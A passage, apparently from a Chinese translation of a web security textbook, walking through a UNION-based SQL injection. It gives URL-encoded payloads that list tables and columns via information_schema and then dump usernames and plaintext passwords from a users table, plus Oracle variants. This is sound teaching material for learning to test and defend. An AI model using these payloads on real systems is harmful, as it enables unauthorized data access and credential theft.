 |NAME|E-MAIL|
|-|-|
|Matthew Adamson|handytrick@gmail.com|
|a||

下一步是找出可能包含有趣信息的数据库表和列的名称。 我们可以通过查询元数据表`information_schema.columns`来做到这一点，该表包含数据库中所有表和列名的详细信息。 这些可以通过以下查询检索：
```
Name=Matthew'%20union%20select%20table_name,column_name,null,null,
null%20from%20information_schema.columns--
```

NAME|E-MAIL|
|-|-|
|Matthew Adamson|handytrick@gmail.com|
|shop_items|price|
|shop_items|prodid|
|shop_items|prodname|
|addr_book|contactemail|
|addr_book|contactname|
|users|username|
|users|password|

在这里，用户表显然是开始提取数据的地方。 我们可以使用以下查询从用户表中提取数据：
```
Name=Matthew'%20UNION%20select%20username,password,null,null,null%20
from%20users--
```

NAME|E-MAIL|
|-|-|
|Matthew Adamson|handytrick@gmail.com|
|administrator|fme69|
|dev|uber|
|marcus|8pinto|
|smith|twosixty|
|jlo|6kdown|

**TIP**
MS-SQL，MySQL和许多其他数据库（包括SQLite和Postgresql）都支持`information_schema`。 它旨在保存数据库元数据，使其成为想要检查数据库的攻击者的主要目标。 请注意，Oracle不支持该架构。 以Oracle数据库为目标时，攻击将在其他方面完全相同。 但是，您将使用查询`SELECT table_name,column_name FROM all_tab_columns`来检索有关数据库中表和列的信息。（您将使用`user_tab_columns`表仅关注当前数据库。）在分析大型数据库中的攻击点时，它会 通常最好直接寻找有趣的列名而不是表。 例如：
```
SELECT table_name,column_name FROM information_schema.columns where
column_name LIKE '%PASS%'
```
